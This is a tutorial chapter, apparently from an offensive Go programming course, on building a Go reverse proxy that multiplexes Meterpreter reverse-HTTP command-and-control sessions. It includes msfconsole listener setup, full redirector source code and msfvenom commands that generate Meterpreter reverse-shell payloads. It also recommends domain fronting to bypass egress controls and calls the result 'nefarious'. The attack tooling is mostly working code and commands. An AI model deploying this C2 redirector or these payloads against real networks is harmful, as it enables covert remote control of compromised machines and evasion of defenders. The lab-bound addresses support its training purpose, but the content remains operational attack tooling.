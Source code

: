 ## Multiplexing Command-And-Control
You’ve arrived at the last section of the chapter on HTTP servers. Here, you’ll look at how to multiplex Meterpreter 
HTTP connections to different backend control servers. `Meterpreter` is a popular, flexible command-and-control (C2) 
suite within the `Metasploit exploitation framework`. We won’t go into too many details about Metasploit or Meterpreter. 
If you’re new to it, we recommend reading through one of the many tutorial or documentation sites.

Recommendation about Metasploit and Meterpreter fundamentals:
  - https://www.offensive-security.com/metasploit-unleashed/metasploit-fundamentals/
  - https://www.tutorialspoint.com/metasploit/index.htm

In this section, we’ll walk through creating a reverse HTTP proxy in Go so that you can dynamically route your incoming 
Meterpreter sessions based on the Host HTTP header, which is how virtual website hosting works. However, instead of 
serving different local files and directories, you’ll proxy the connection to different Meterpreter listeners. This is 
an interesting use case for a few reasons.

First, your proxy acts as a redirector, allowing you to expose only that domain name and IP address without exposing 
your Metasploit listeners. If the redirector ever gets blacklisted, you can simply move it without having to move 
your C2 server. Second, you can extend the concepts here to perform [domain fronting](https://digi.ninja/blog/domain_fronting.php), 
a technique for leveraging trusted third-party domains (often from cloud providers) to bypass restrictive egress controls. 
We won’t go into a full-fledged example here, but we highly recommend you dig into it, as it can be pretty powerful, 
allowing you to egress restricted networks. Lastly, the use case demonstrates how you can share a single host/port 
combination among a team of allies potentially attacking different target organizations. Since ports 80 and 443 are 
the most likely allowed egress ports, you can use your proxy to listen on those ports and intelligently route the 
connections to the correct listener.

Here’s the plan. You’ll set up two separate Meterpreter reverse HTTP listeners. In this example, these will reside 
on a virtual machine with an IP address of `127.0.0.1` in that example, but they could very well exist on separate 
hosts. You’ll bind your listeners to ports `10080` and `20080`, respectively. In a real situation, these listeners 
can be running anywhere so long as the proxy can reach those ports. Make sure you have Metasploit installed (it 
comes pre-installed on Kali Linux); then start your listeners.
```shell script
   $ msfconsole
   > use exploit/multi/handler
   > set payload linux/x86/meterpreter_reverse_http
❶ > set LHOST 127.0.0.1
   > set LPORT 80
❷ > set ReverseListenerBindAddress 127.0.0.1
   > set ReverseListenerBindPort 10080
   > exploit -j -z
   [*] Exploit running as background job 1.

   [*] Started HTTP reverse handler on http://127.0.0.1:10080
```

When you start your listener, you supply the proxy data as the `LHOST` and `LPORT` values ❶. However, you set the 
advanced options `ReverseListenerBindAddress` and ReverseListenerBindPort to the actual IP and port on which you 
want the listener to start ❷. This gives you some flexibility in port usage while allowing you to explicitly 
identify the proxy host—which may be a hostname, for example, if you were setting up `domain fronting`.

On a second instance of Metasploit, you’ll do something similar to start an additional listener on port 20080. The only 
real difference here is that you’re binding to a different port:
```shell script
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter_reverse_http
> set LHOST 127.0.0.1
> set LPORT 80
> set ReverseListenerBindAddress 127.0.0.1
> set ReverseListenerBindPort 20080
> exploit -j -z
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://127.0.0.1:20080
```

Now, let’s create your reverse proxy. [main.go](main.go) shows the code in its entirety.
```go
   package main

   import (
       "log"
       "net/http"
    ❶ "net/http/httputil"
       "net/url"
       "github.com/gorilla/mux"
   )

❷ var (
       hostProxy = make(map[string]string)
       proxies   = make(map[string]*httputil.ReverseProxy)
   )

   func init() {
   	    // in that example we are using 127.0.0.1 for both but you can modify if needed
   	❸ hostProxy["attacker1.com"] = "http://127.0.0.1:10080"
    	hostProxy["attacker2.com"] = "http://127.0.0.1:20080"
    
       for k, v := range hostProxy {
        ❹ remote, err := url.Parse(v)
           if err != nil {
               log.Fatal("Unable to parse proxy target")
           }  
        ❺ proxies[k] = httputil.NewSingleHostReverseProxy(remote)
       }  
   }

   func main() {
       r := mux.NewRouter()
       for host, proxy := range proxies {
        ❻ r.Host(host).Handler(proxy)
       }
        // in that example we are using 127.0.0.1 for both but you can modify if needed
       log.Fatal(http.ListenAndServe("127.0.0.1:80", r))
   }
```

First off, you’ll notice that you’re importing the `net/http/httputil` package ❶, which contains functionality to 
assist with creating a reverse proxy. It’ll save you from having to create one from scratch.

After you import your packages, you define a pair of variables ❷. Both variables are maps. You’ll use the first, 
`hostProxy`, to map hostnames to the URL of the Metasploit listener to which you’ll want that hostname to route. 
Remember, you’ll be routing based on the `Host header` that your proxy receives in the HTTP request. Maintaining 
this mapping is a simple way to determine destinations.

The second variable you define, `proxies`, will also use hostnames as its key values. However, their corresponding 
values in the map are `*httputil.ReverseProxy` instances. That is, the values will be actual proxy instances to 
which you can route, rather than string representations of the destination.

Notice that you’re hardcoding this information, which isn’t the most elegant way to manage your configuration and 
proxy data. A better implementation would store this information in an external configuration file instead. We’ll 
leave that as an exercise for you. Or you can get that information as command line argument from user.

You use an `init()` function to define the mappings between domain names and destination Metasploit instances ❸. 
In this case, you’ll route any request with a Host header value of attacker1.com to http://127.0.0.1:10080 and 
anything with a Host header value of attacker2.com to http://127.0.0.1:20080. Of course, you aren’t actually 
doing the routing yet; you’re just creating your rudimentary configuration. Notice that the destinations correspond 
to the `ReverseListenerBindAddress` and `ReverseListenerBindPort` values you used for your Meterpreter listeners 
earlier.

Next, still within your `init()` function, you loop over your hostProxy map, parsing the destination addresses to 
create `net.URL` instances ❹. You use the result of this as input into a call to `httputil.NewSingleHostReverseProxy(net.URL)` ❺, 
which is a helper function that creates a reverse proxy from a URL. Even better, the `httputil.ReverseProxy` type 
satisfies the `http.Handler` interface, which means you can use the created proxy instances as handlers for your 
router. You do this within your `main()` function. You create a router and then loop over all of your proxy 
instances. Recall that the key is the hostname, and the value is of type `httputil.ReverseProxy`. For each key/value 
pair in your map, you add a matching function onto your router ❻. The Gorilla MUX toolkit’s `Route` type contains a 
matching function named Host that accepts a hostname to match Host header values in incoming requests against. For 
each hostname you want to inspect, you tell the router to use the corresponding proxy. It’s a surprisingly easy 
solution to what could otherwise be a complicated problem.

Your program finishes by starting the server, binding it to port 80. Save and run the program. You’ll need to do 
so as a privileged user since you’re binding to a privileged port.

At this point, you have two Meterpreter reverse HTTP listeners running, and you should have a reverse proxy running 
now as well. The last step is to generate test payloads to check that your proxy works. Let’s use `msfvenom, a payload 
generation tool that ships with Metasploit`, to generate a pair of Windows executable files:
```shell script
$ msfvenom -p linux/x86/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=80 HttpHostHeader=attacker1.com -f elf -o payload1.elf
$ msfvenom -p linux/x86/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=80 HttpHostHeader=attacker2.com -f elf -o payload2.elf
```

> **NOTE**  
> For more information about creating Metasploit payloads, please refer to [this link](https://netsec.ws/?p=331).

This generates two output files named `payload1.elf` and `payload2.elf`. Notice that the only difference between 
the two, besides the output filename, is the `HttpHostHeader` values. This ensures that the resulting payload 
sends its HTTP requests with a specific Host header value. Also of note is that the LHOST and LPORT values correspond 
to your reverse proxy information and not your Meterpreter listeners. Transfer the resulting executables to a 
Linux system or virtual machine. When you execute the files, you should see two new sessions established: one on the 
listener bound to port 10080, and one on the listener bound to port 20080. They should look something like this:

```shell script
>
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Redirecting stageless
connection from /pxS_2gL43lv34_birNgRHgL4AJ3A9w3i9FXG3Ne2-3UdLhACr8-Qt6QOlOw
PTkzww3NEptWTOan2rLo5RT42eOdhYykyPYQy8dq3Bq3Mi2TaAEB with UA 'Mozilla/5.0 (Windows NT 6.1;
Trident/7.0;
rv:11.0) like Gecko'
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Attaching
orphaned/stageless session...
[*] Meterpreter session 1 opened (10.0.1.20:10080 -> 10.0.1.20:60226) at 2020-07-03 16:13:34 -0500
```

If you use tcpdump or Wireshark to inspect network traffic destined for port 10080 or 20080, you should see that 
your reverse proxy is the only host communicating with the Metasploit listener. You can also confirm that the Host 
header is set appropriately to attacker1.com (for the listener on port 10080) and attacker2.com (for the listener 
on port 20080).

> **IMPROVEMENT SUGGESTION**  
> That’s it. You’ve done it! Now, take it up a notch. As an exercise for you, we recommend you update the code to 
> use a staged payload. This likely comes with additional challenges, as you’ll need to ensure that both stages 
> are properly routed through the proxy. Further, try to implement it by using HTTPS instead of cleartext HTTP. 
> This will further your understanding and effectiveness at proxying traffic in useful, nefarious ways.

> **SUMMARY**  
> You’ve completed your journey of HTTP, working through both client and server implementations over the last 
> two chapters. In the next chapter, you’ll focus on DNS, an equally useful protocol for security practitioners. 
> In fact, you’ll come close to replicating this HTTP multiplexing example using DNS.